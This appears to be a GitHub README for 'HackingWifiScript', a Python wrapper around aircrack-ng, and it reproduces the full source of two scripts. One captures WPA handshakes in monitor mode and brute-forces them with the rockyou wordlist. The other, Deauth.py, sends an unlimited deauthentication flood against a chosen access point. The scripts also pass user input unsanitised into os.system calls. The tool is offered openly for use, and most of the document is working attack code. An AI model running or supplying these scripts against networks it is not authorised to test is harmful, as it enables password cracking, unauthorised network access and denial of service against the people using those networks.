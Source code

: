 

<p align="center"> 
  <img src="https://user-images.githubusercontent.com/107058068/177764686-699cf3a2-bd2a-468a-92b5-9bf447237762.png" alt="HackingWifiScript" width="80" height="80">
</p>
<h1 align="center">HackingWifiScript</h1>


This script written in python3 was created for simplified brute force scanning using the aircrack-ng utility.<br><br>
__You can look at the repository where everything is described in detail. <a href="https://github.com/John-MetrosSoftware/HackingWifi">Link</a>.__
## Installation for python3
### Libraries
- <a href="https://pypi.org/project/prompt-toolkit/0.5/">prompt_toolkit</a>

```
git clone https://github.com/John-MetrosSoftware/HackingWifiScript
cd HackingWifiScript
pip3 install prompt_toolkit
python3 HackingWifiScript.py
```

## Installation aircrack-ng
```
sudo apt install aircrack-ng
```


## HackingWifiScript.py

### Imports
```python3
import os
import sys
from prompt_toolkit import prompt
```

### Scanning 
```python3
def scan_wifi(): 
    # Removing redundant processes
    os.system('sudo airmon-ng check kill')

    # Display network devices
    os.system('sudo airmon-ng')

    # Display the name of the network device (default: wlan0)
    device = prompt('Device [wlan0]: ')
    if device.replace(' ', '') == '':device = 'wlan0'

    # Switching network device to monitor mode
    os.system('sudo airmon-ng start {}'.format(device))

    # Start scanning wifi networks
    os.system('sudo airodump-ng {}'.format(device))

    # Handshake name
    cap = prompt('Handshake name: ')
    if cap.replace(' ', '') == '':
        print('Error! You did not enter the name of the handshake. ({}).'.format(cap))
        while True:
            cap = prompt('Handshake name: ')
            if cap.replace(' ', '') != '':
                break

    # Access point channel
    cannel = prompt('Cannel: ')
    if cannel.replace(' ', '') == '':
        print('Error! You have not entered a channel. ({}).'.format(cannel))
        while True:
            cannel = prompt('Cannel: ')
            if cannel.replace(' ', '') != '':
                break

    # Access point bssid
    bssid = prompt('Bssid: ')
    if bssid.replace(' ', '') == '':
        print('Error! You did not enter bssid. ({}).'.format(bssid))
        while True:
            bssid = prompt('Bssid: ')
            if bssid.replace(' ', '') != '':
                break

    # Running a specific wifi network scan
    os.system('sudo airodump-ng -w {} -c {} --bssid {} {}'.format(cap, cannel, bssid, device))
```

### Bruteforce
```python3
def brute_force():
    while True:
        # Handshake input
        cap = prompt('Handshake name: ')  
        if cap.replace(' ', '') == '':
            print('Error! You did not enter the name of the handshake. ({})'.format(cap))
            while True:
                cap = prompt('Handshake name: ')
                if cap.replace(' ', '') != '':
                    break

        # Getting a dictionary file
        if os.path.isfile(cap) == True:
            list_ = prompt('List [/usr/share/wordlists/rockyou.txt]: ')
            if list_.replace(' ', '') == '':
                list_ = '/usr/share/wordlists/rockyou.txt'
            break
        else:
            print('Error! Could not find handshake file. ({}).'.format(cap))

    # Bruteforce
    os.system('aircrack-ng {} -w {}'.format(cap, list_))
```

### Main
```python3
def main():
    os.system('clear || cls')
    print('1. Scanning\n2. Bruteforce\n3. Exit\n')
    select = prompt('Select menu item $ ')
    if select == '1':
        scan_wifi()
    elif select == '2':
        brute_force()
    elif select == '3':
        sys.exit()
    else:
        print('Invalid parameter: \'{}\''.format(select))
```

### Init
```python3
if __name__ == '__main__':
    while True:
        try:
            main()
        except Exception as error:
            print('Error: {}'.format(error))
```

## Deauth.py
### Imports
```python3
import os
import sys
```

### Main
```python3
def main():
    os.system('sudo aireplay-ng --deauth 0 -a {} {}'.format(str(sys.argv[1]), str(sys.argv[2])))
```

### Init
```python3
if __name__ == '__main__':
    try:
        sys.argv[1]
        sys.argv[2]
    except:
        print('Error! Not enough launch options.')
        sys.exit()
    main()
```

 

## Compilation
I usually compile my projects using the <a href="https://pypi.org/project/pyinstaller/">pyinstaller</a> compiler with the following parameters:
```
pyinstaller -F HackingWifiScript.py
pyinstaller -F Deauth.py
```

When making edits in the code or other changes, mark the author I want to know how the project is developing.
## PEP8
<a href="https://pypi.org/project/autopep8/">autopep8</a> automatically formats Python code to conform to the PEP 8 style guide. It uses the pycodestyle utility to determine what parts of the code needs to be formatted. autopep8 is capable of fixing most of the formatting issues that can be reported by pycodestyle.
```
autopep8 HackingWifiScript.py --recursive --in-place
autopep8 Deauth.py --recursive --in-place
```
